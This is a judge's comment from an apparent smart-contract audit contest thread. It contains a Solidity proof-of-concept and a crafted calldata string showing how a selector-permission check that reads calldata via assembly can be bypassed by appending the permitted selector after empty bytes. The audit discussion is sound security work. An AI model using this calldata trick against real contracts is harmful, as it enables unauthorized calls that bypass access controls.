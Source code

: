 **[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1222005782):**
> This might be clearer
> ```solidity
> pragma solidity ^0.8.0;
> 
> contract PoC {
>     bytes4 public signatureWithPermision = bytes4(0xdead1337);
> 
>     // Call this function with calldata that can be prepared in `getAttackerCalldata`
>     function execute(address target, bytes calldata data) view external returns(bytes memory) {
>         bytes4 selector;
>         assembly {
>             selector := calldataload(data.offset)
>         }
>         require(selector == signatureWithPermision, "bad selector");
>         return data;
>     }
> 
>     // Function that prepare attacker calldata
>     function getAttackerCalldata() public view returns(bytes memory)  {
>         bytes memory usualCalldata = abi.encodeWithSelector(this.execute.selector, msg.sender, new bytes(0));
>         return abi.encodePacked(usualCalldata, signatureWithPermision);
>     }
> 
>     function exploit() external returns(bytes memory data) {
>         (, data) = address(this).call(getAttackerCalldata());
>     }
> }
> ```
> 
> If you call `exploit`, it would succeed but it shouldn't (since exploit call execute with `0x00000000....` instead of the permitted 4bytes `0xdead1337`). 
> 
> The exploit here is if you permitted contract A to run function foo only, A.fallback() is also permitted.
> 
> Your `getSelector` PoC won't work if you are passing a non-empty bytes, it would work if you construct a call like `0x0cbd17c800000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000dead1337`<br>
> which is equivalent to calling `getSelector("")` with some extra data `dead1337` at the end.
> 
> Consider the calldata layout<br>
> [00] 0cbd17c8<br>
> [04] 0000000000000000000000000000000000000000000000000000000000000020 (data offset)<br>
> [24] 0000000000000000000000000000000000000000000000000000000000000000 (data len)<br>
> [44] dead1337
> 
> data.offset = 0x04 + 0x20 (data offset) + 0x20 (1 word for length) = 0x44
